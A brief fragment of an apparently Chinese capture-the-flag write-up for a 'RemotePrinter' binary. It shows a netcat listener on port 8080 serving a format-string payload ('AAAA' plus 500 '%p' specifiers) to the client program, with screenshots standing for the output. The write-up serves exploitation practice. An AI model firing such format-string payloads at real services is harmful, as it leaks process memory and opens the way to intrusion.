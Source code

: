 ## 服务端:
```sh
$ python -c 'print "AAAA" + "%p "*500' | nc -l  8080 -vv
```
![](img/屏幕快照\ 2016-11-07\ 下午10.14.05.png)
## 客户端
执行
```sh
./RemotePrinter
```
![](img/屏幕快照\ 2016-11-07\ 下午10.13.48.png)
